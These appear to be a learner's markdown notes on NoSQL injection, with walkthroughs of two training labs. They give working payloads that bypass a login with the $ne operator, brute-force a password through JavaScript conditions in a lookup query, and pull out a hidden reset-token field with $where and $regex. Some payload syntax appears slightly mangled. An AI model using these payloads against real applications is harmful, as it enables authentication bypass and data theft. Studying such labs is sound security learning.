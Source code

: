 # NoSQL Injection

NoSQL injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database.
There are two different types of NoSQL injection:
- **Syntax injection** - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. Use null operator (`%00`) to ignore upcoming conditions.
- **Operator injection** - This occurs when you can use NoSQL query operators to manipulate queries.
  
  
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following:
    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.

### LAB: Exploiting NoSQL injection to extract data
Take advantage of the response for request `GET /user/lookup?user=`

    && this.password.length==8 && '1'=='1 -> Return user's info -> password's length = 8
    && this.password.match(/\d/) && '1'=='1 -> Could not find user -> no digit in password
    && this.password[0]=='$a$ -> Brute force to find the password 


### LAB: Exploiting NoSQL operator injection to extract unknown fields
Add this to the JSON in the POST request to `/login`:

    "$where":"Object.keys(this)[4].match('^.{$0$}.*')"    -> look for the biggest number with a valid response -> that's the length of the key

    "$where":"Object.keys(this)[4].match('^.{0}$a$.*')"   -> this means the first character is 'a'. After finding a valid character, add that to the match (e.g. 'b' is a match -> "$where":"Object.keys(this)[4].match('^.{0}ab.*')") and find the next character

    {"username":"carlos","password":{
    "$ne":""},"changePwd":{ "$regex": "^{$a$}" }}    -> changePwd = af03484db14c7c66 

    go to /forgot-password?changePwd=af03484db14c7c66


